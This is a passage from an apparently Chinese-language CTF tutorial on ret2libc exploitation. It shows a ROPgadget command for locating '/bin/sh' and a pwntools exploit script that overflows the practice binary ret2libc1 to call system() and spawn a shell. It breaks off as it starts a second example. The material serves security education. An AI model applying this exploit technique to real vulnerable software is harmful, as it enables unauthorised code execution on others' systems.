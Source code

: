 [![](assets/1701612384-0f64d8dc34edc2b4bf76045b994f8e29.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204258-7a4441a2-167a-1.png)

[![](assets/1701612384-10dd03a31cd269a8dc0b9e3cd23a4959.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204302-7cb3815a-167a-1.png)

再利用ROPgadget查一下/bin/sh的地址

```plain
ROPgadget --binary ret2libc1 --string "/bin/sh"
```

[![](assets/1701612384-4fd3aee7934db695f1bb3ba413512361.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204307-7f300516-167a-1.png)

exp:

```plain
from pwn import *

io=process("./ret2libc1")
elf = ELF("./ret2libc1")
print(elf.plt["system"])
sys_plt_addr=0x8048460
binsh_addr =0x08048720
payload=b'A'*112 +p32(sys_plt_addr)+b'a'*4+p32(binsh_addr)
#payload=flat([b'A'*112,sys_plt_addr,b'a'*4,binsh_addr])
io.sendline(payload)
io.interactive()
```

例题二 ret2libc2

首先checksec检查保护

[![](assets/1701612384-251ef648f05af8c3615bc2527b5eb4a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204312-82b10668-167a-1.png)

